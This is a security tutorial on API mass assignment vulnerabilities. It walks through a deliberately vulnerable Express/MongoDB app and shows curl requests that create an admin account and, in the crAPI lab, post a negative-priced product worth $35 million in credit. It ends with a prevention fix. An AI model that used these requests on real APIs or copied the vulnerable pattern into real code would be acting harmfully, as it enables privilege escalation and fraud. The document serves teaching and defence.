





# Intro

Mass assignment vulnerabilities occur when APIs automatically bind client-provided data to internal objects or variables without proper filtering. Modern frameworks often provide features that automatically map incoming request parameters to code variables - while this enables rapid development, it can also introduce security risks if not properly controlled.



__Threat agents/Attack vectors__: Exploitation usually requires an understanding of the business logic, objects' relations, and the API structure. Exploitation of mass assignment is easier in APIs, since by design they expose the underlying implementation of the application along with the properties’ names.

__Security Weakness__: Modern frameworks encourage developers to use functions that automatically bind input from the client into code variables and internal objects. Attackers can use this methodology to update or overwrite sensitive object’s properties that the developers never intended to expose..

__Impacts__: Exploitation may lead to privilege escalation, data tampering, bypass of security mechanisms, and more.

### Discovery Methods

To identify potential mass assignment vulnerabilities, attackers typically look for:

- Open source code repositories containing the application code
- JWT tokens that reveal user claim structures
- API endpoint responses that expose object properties
- Documentation that reveals internal parameter names
- Error messages that leak property names


## Code Analysis

Let's examine a vulnerable Node.js/Express application that demonstrates mass assignment:

This section initializes the Express application and configures middleware for parsing URL-encoded bodies.

```js
const express = require('express');
const mongoose = require('mongoose');
const app = express();

app.set('view engine', 'ejs');
app.use(express.urlencoded({ extended: false }));
```

The application connects to MongoDB and imports the User model.

```js
mongoose
  .connect(
    'mongodb://mongo:27017/nosqli-demo',
    { useNewUrlParser: true }
  )
  .then(() => console.log('MongoDB Connected'))
  .catch(err => console.log(err));

const User = require('./models/User');
```

The vulnerable code lies in the `/register` endpoint, which uses the spread operator to directly assign all request body parameters to the new user object.


```js
// index page
app.get('/', (req, res) => {
    User.find().then(users => res.render('index', { users }))
});

// create a new user
app.post('/register', (req, res) => {
  const newUser = new User({ ...req.body });
  newUser.save().then(user => res.redirect('/'));
});

// clear the current users
app.get('/clear', (req, res) => {
  User.deleteMany({}, function(err, result) {
    if (err) throw err;
    console.log(result.deletedCount + ' users deleted');
  });
  res.redirect('/');
});
```

The User model is defined as follows:

```js
const mongoose = require('mongoose');
const Schema = mongoose.Schema;

const UserSchema = new Schema({
  username: {
    type: String,
    required: true
  },
  password: {
    type: String,
    required: true
  },
  privileges: {
    type: String,
    required: true,
    default: "user"
  }
});

module.exports = User = mongoose.model('user', UserSchema);
```

# Lab

The application provides two main functionalities:
1. User registration (`/register`)
2. User list reset (`/clear`)



The schema follows the format: `username:password:privilege`

To create an admin user, we can exploit the mass assignment vulnerability by including the `privileges` parameter in our request:

Using Postman:


Using cURL:
```bash
curl --location 'http://172.20.0.1/register' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'username=fake_user' \
--data-urlencode 'password=fake_pass' \
--data-urlencode 'privileges=admin'
```

Verification of successful exploitation:
```bash
$ curl -s http://172.20.0.1/ | tr -d '\r' | egrep '([^:]+):([^:]+):([^:]+)' | tr -d " "

alex:alex:user
john_doe:password:user
jane_doe:Password1!:user
fake_user:fake_pass:admin
```



# crAPI

The crAPI application demonstrates another mass assignment vulnerability in its shop functionality:

1. The `/workshop/api/shop/products` endpoint accepts POST requests
2. Required fields include `name`, `price`, and `image_url`
3. The `price` field can be manipulated to inject negative values

Fuzzing the HTTP request methods on the specified endpoint reveals support for the following methods: GET, HEAD, POST, and OPTIONS.

```bash
$ ffuf -u http://localhost:8888/workshop/api/shop/products -w /opt/SecLists/Fuzzing/http-request-methods.txt -X FUZZ -fc 405 -t 4    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : FUZZ
 :: URL              : http://localhost:8888/workshop/api/shop/products
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/http-request-methods.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 4
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 405
________________________________________________

GET                     [Status: 401, Size: 33, Words: 3, Lines: 1, Duration: 110ms]
HEAD                    [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 117ms]
POST                    [Status: 401, Size: 33, Words: 3, Lines: 1, Duration: 202ms]
OPTIONS                 [Status: 200, Size: 177, Words: 3, Lines: 1, Duration: 205ms]
:: Progress: [88/88] :: Job [1/1] :: 168 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Response from `GET /workshop/api/shop/products HTTP/1.1`

```json
{
    "products": [
        {
            "id": 2,
            "name": "Wheel",
            "price": "10.00",
            "image_url": "images/wheel.svg"
        },
        {
            "id": 1,
            "name": "Seat",
            "price": "10.00",
            "image_url": "images/seat.svg"
        }
    ],
    "credit": 100.0,
    "next_offset": null,
    "previous_offset": null,
    "count": 2
}
```

Exploitation:
```bash
curl --location 'http://localhost:8888/workshop/api/shop/products' \
--header 'Authorization: Bearer $JWT' \
--form 'name="test"' \
--form 'price="-35000000.00"' \
--form 'image_url="images/seat.svg"'
```

This results in crediting the user's account with $35 million:


### Prevention

Instead of using mass assignment:
```js
const newUser = new User({ ...req.body }); // Vulnerable
```

Explicitly specify allowed fields:
```js
const newUser = new User({
  username: req.body.username,
  password: req.body.password
}); // Secure
```

This ensures that sensitive fields like `privileges` cannot be set during user creation.